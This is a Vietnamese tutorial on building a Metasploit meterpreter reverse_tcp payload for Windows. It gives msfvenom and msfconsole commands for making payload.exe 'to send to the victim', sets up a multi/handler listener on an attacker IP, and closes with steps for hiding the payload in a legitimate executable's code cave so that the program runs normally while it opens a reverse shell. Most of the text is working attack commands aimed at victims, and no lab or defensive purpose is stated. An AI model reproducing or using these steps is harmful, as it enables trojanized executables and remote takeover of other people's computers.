






Để tạo payload bằng Metasploit (Metasploit Framework), bạn có thể sử dụng các module và lệnh được cung cấp trong Metasploit. Dưới đây là hướng dẫn cơ bản để tạo một payload sử dụng Metasploit:
Trước tiên, nếu bạn chưa cài đặt Metasploit, hãy làm theo các bước sau:
sudo apt update
sudo apt install metasploit-framework
Trên Ubuntu :
sudo apt update
ssudo snap install metasploit-framework
Trên Windows, bạn có thể tải xuống bộ cài đặt Metasploit từ trang web chính thức của Metasploit: https://www.metasploit.com.
Mở terminal và chạy lệnh sau để khởi động Metasploit:
msfconsole
Metasploit cung cấp rất nhiều payloads để chọn. Dưới đây là ví dụ về cách tạo một payload đơn giản.
Chọn một payload:
Sử dụng lệnh use để chọn payload mong muốn. Ví dụ, nếu bạn muốn tạo một payload cho Windows, bạn có thể chọn một payload reverse TCP như sau:
use windows/meterpreter/reverse_tcp
Cấu hình các tùy chọn cho payload:
Sau khi chọn payload, bạn cần cấu hình các tùy chọn cần thiết. Bạn có thể kiểm tra các tùy chọn có sẵn bằng lệnh show options:
show options
Các tùy chọn cần thiết thường bao gồm:
Ví dụ, bạn có thể cấu hình các tùy chọn như sau:
set LHOST 172.21.224.1 # Địa chỉ IP của máy tấn công
set LPORT 4444 # Cổng mà payload sẽ sử dụng
Khi bạn đã cấu hình đầy đủ payload, bạn có thể tạo nó. Dưới đây là hai cách để tạo payload:
Tạo payload dưới dạng một file để gửi cho nạn nhân:
Nếu bạn muốn tạo một payload và lưu nó vào một file để gửi cho nạn nhân (ví dụ như một file .exe), bạn có thể sử dụng lệnh generate hoặc msfvenom. Ví dụ:
msfvenom -p windows/meterpreter/reverse_tcp LHOST= 172.21.224.1 LPORT=4444 -f exe > payload.exe
Lệnh này sẽ tạo một file payload.exe, mà bạn có thể gửi cho nạn nhân.
Tạo một payload và gửi trực tiếp qua network:
Bạn có thể sử dụng Metasploit để tạo và quản lý payload trực tiếp qua mạng mà không cần tạo file. Ví dụ, sau khi cấu hình payload, bạn có thể tạo kết nối thông qua lệnh exploit:
exploit
Sau khi tạo payload và gửi nó tới nạn nhân (hoặc thử tấn công theo cách khác), bạn cần chạy listener để chờ kết nối từ payload. Ví dụ:
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 172.21.224.1
set LPORT 4444
exploit
Khi nạn nhân chạy payload (tệp .exe mà bạn đã tạo), một kết nối sẽ được thiết lập giữa máy của bạn và máy của nạn nhân, và bạn sẽ có quyền truy cập vào máy nạn nhân qua Meterpreter.
HEX view của payload \n

Chèn payload vào k gian trôgns của exe

sửa entry point Jmp đến điểm bắt đầu của payload

Sử dụng Pushad và Pushfd đẻ lưu lại giá trị của các thanh ghi và flag

Sử dụng Popad và Popfd đẻ khôi phục trạng thái thanh ghi ban đầu
Phải trả lại entrypoint ban đâu đẻ trương trình chạy bình thường

Khi người dùng run Payload này chẽ mở 1 reverse Shell đến máy của kẻ tấn công
